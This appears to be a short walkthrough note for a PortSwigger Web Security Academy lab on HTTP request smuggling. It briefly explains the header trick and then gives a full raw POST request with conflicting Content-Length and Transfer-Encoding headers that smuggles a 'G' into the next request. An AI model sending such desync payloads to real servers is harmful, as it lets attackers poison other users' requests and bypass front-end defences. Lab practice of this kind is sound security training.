 
![img](media/9d6cddac722ad9689f480bd4d5a1f11f.png)

To smuggle the next request and add a "G" to it:

-   *Transfer-Encoding: chunked* because the backend understands it

-   *Content-Length: 14* so the G is not part of the payload

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
Host: 0ad100e2031e22e4802bfd8000b500ed.web-security-academy.net
Cookie: session=b8XcvijmPd8C0rUH0GtgGgXQW5YZ0n8c
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://0ad100e2031e22e4802bfd8000b500ed.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 14
Transfer-Encoding: chunked
Connection: close

3
x=y
0

G
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
